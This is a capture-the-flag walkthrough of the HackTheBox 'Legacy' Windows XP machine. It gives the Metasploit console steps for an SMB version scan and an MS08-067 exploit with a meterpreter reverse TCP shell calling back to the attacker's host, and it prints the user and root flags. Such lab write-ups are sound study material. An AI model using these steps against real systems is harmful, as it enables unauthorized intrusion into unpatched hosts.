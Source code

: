 # HackTheBox Legacy Walkthrough

This is a Walkthrough how I get the user and root flag on the machine. All my scan results are stored in the [attachments](./attachments) folder.

achine details:

- Machine Name : Legacy
- IP address: 10.10.10.4
- OS: Windows
- Difficulty: Easy

## Scanning

In this table I summarize the open ports and protocols and the XML version of the full results.

| Scan Type         | Open Ports/Protocols | XML Output File                                |
|-------------------|----------------------|------------------------------------------------|
| Nmap IP Scan      | 1 (ICMP)             | [ip_legacy.xml](./attachments/ip_legacy.xml)   |
| Nmap TCP SYN Scan | 139, 445             | [tcp_legacy.xml](./attachments/tcp_legacy.xml) |
| Nmap UDP Scan     | 137                  | [udp_legacy.xml](./attachments/udp_legacy.xml) |

## Enumeration

### OS Enumeration

The Nmap OS detection found 94% match for Microsoft Windows XP SP3.

### SMB Enumeration

```bash
root@Kali:/# msfconsole

               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

etasploit tip: Open an interactive Ruby terminal with irb

msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > show options

odule options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 auxiliary(scanner/smb/smb_version) > exploit

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Searching Vulnerabilities

I google for [smb windows xp sp3 exploit](https://www.google.com/search?q=smb+windows+xp+sp3+exploit&oq=smb+xp+sp&aqs=chrome.1.69i57j0l7.6303j0j7&sourceid=chrome&ie=UTF-8). The first finding is a Metasploit module for [MS08-067 Microsoft Server Service Relative Path Stack Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

## Exploit

I use the found module with staged meterpreter reverse TCP shell. The meterpreter session already has SYSTEM privilege so the only think left is to find the user and root flag on the machine.

```bash
msf5 auxiliary(scanner/smb/smb_version) > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > show options

odule options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.23
LHOST => 10.10.14.23
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.23:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176195 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.4:1031) at 2020-08-20 19:22:30 +0000

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
e69af0e4f443de7e36876fda4ec7644f
meterpreter >
meterpreter > cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
993442d258b0e0ec917cae9e695d5713
meterpreter >
```

